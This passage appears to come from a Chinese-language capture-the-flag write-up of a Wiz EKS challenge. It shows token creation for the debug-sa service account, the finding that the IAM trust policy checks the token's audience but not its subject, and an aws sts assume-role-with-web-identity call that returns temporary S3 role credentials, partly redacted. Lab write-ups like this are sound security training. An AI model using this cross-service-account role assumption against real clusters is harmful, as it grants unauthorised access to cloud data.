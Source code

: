 ```typescript
    }
}
```

其中s3access-sa中显示的角色ARN包含“S3Role”字样，猜测为最终要获取的或构建的角色的ARN。

已知我们拥有“create serviceaccounts/token”权限，因此可以尝试使用 TokenRequest API 获取一个短期令牌。经测试发现我们可以为 debug-sa 服务帐户创建令牌，但不能为 s3access-sa 创建令牌：

```sql
root@wiz-eks-challenge:~
error: failed to create token: serviceaccounts "s3access-sa" is forbidden: User "system:node:challenge:ip-192-168-21-50.us-west-1.compute.internal" cannot create resource "serviceaccounts/token" in API group "" in the namespace "challenge5"

root@wiz-eks-challenge:~
eyJhbGci[...]66B-YamXw
```

回顾信任策略，发现它仅对OIDC token的"aud"字段进行检查，并没有检查subject字段。

在Kubernetes的TokenRequest API中，sub（subject）字段通常被用来表示令牌的主体，也就是令牌的所有者。这通常是一个服务账户。如果IAM信任策略没有对sub字段进行检查，那么任何能够生成有效OIDC令牌的服务账户都可以扮演这个IAM角色。

例如，假设你有一个服务账户A，它只应该有访问某些特定资源的权限，而你的IAM角色有更广泛的权限。如果IAM信任策略没有对sub字段进行检查，那么服务账户A就可能生成一个OIDC令牌，然后扮演这个IAM角色，从而获得更广泛的权限。

在AWS EKS环境中，assume-role-with-web-identity命令常常与Kubernetes的服务账户一起使用，以便让Kubernetes中的Pod能够获得访问AWS资源的权限。以下是如何使用assume-role-with-web-identity命令的基本步骤：

1.  从身份提供者（IDP）获取一个身份令牌。这通常涉及到用户的身份验证，并且会返回一个JWT（JSON Web Token）。
    
2.  调用assume-role-with-web-identity命令，传递身份令牌和想要扮演的IAM角色的ARN（Amazon Resource Name）。例如：
    

```ruby
aws sts assume-role-with-web-identity \
  --role-arn arn:aws:iam::123456789012:role/FederatedWebIdentityRole \
  --role-session-name "my-session-name" \
  --web-identity-token file://path-to-token \
```

3.  assume-role-with-web-identity命令会返回一个包含临时安全凭证的响应。这个响应包括一个AccessKeyId、一个SecretAccessKey、一个SessionToken和一个过期时间。
    
4.  使用这些临时安全凭证来访问AWS资源。例如，你可以将它们设置为你的AWS SDK或者CLI的环境变量，然后使用它们来发送AWS API请求。
    

因此可以利用信任策略中存在的风险，创建我们扮演我们需要的角色值：

```typescript
root@wiz-eks-challenge:~# aws sts assume-role-with-web-identity --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name test --web-identity-token "$TOKEN"
{
    "Credentials": {
        "AccessKeyId": "ASIA2AV[...]KDJQG7L",
        "SecretAccessKey": "U5JIhuryg[...]60GPuovIkRKmiG3+",
        "SessionToken": "IQoJb3JpZ2luX2VjEPn//////////wEaCXVzLXdlc3QtMSJHMEUCICMd1Wn8Vp83saPOqeXsifXhposvzCoiZVu5frKLCWjq[...]8ksKhw84=",
        "Expiration": "2023-11-13T10:07:14+00:00"
    },
    "SubjectFromWebIdentityToken": "system:serviceaccount:challenge5:debug-sa",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA2AVYNEVMZEZ2AFVYI:test",
        "Arn": "arn:aws:sts::688655246681:assumed-role/challengeEksS3Role/test"
    },
    "Provider": "arn:aws:iam::688655246681:oidc-provider/oidc.eks.us-west-1.amazonaws.com/id/C062C207C8F50DE4EC24A372FF60E589",
    "Audience": "sts.amazonaws.com"
}
```
